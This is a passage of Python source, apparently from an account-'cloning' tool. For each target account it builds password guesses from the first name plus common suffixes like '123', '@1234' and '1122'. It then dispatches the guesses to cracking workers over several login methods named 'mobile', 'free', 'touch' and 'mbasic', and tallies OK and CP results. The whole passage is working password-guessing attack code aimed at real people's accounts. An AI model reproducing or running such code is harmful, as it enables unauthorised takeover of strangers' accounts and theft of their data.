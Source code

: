                     pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')                
            else:
                if len(frs)<3:
                    pwv.append(nmf)
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')               
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            else:pass
            if 'mobile' in method:
                pool.submit(crack,idf,pwv)
            elif 'free' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'touch' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'mbasic' in method:
                pool.submit(crackfree,idf,pwv)
            else:
                pool.submit(crackfree,idf,pwv)
    print('\n\033[1;37m===================================')
    print('\033[97;1m[\033[92;1m+\033[97;1m] CLONING COMPLETE TIME :\033[1;92m'+time.strftime("%H:%M")+" "+ tag)
    print('\033[97;1m[\033[92;1m•\033[97;1m] OK :\033[0;92m %s '%(OK))
    print('\033[97;1m[\033[92;1m+\033[97;1m] CP :\033[0;93m %s '%(CP))
    print('\n\033[1;37m===================================')
    woi = input('\033[97;1m[\033[92;1m+\033[97;1m] \033[1;37m ENTER TO BACK')
    os.system("python ASHIK-6-3.py")
    exit()
 